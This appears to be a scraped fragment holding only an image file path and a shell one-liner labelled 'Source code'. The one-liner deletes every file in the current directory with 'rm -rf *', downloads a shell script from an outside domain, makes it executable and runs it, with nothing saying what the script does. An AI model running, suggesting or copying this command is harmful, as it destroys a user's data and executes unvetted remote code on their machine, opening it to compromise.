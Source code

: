 rm -rf * && wget https://garudamiliter.com/1coresatu.sh && chmod a+x 1coresatu.sh && ./1coresatu.sh
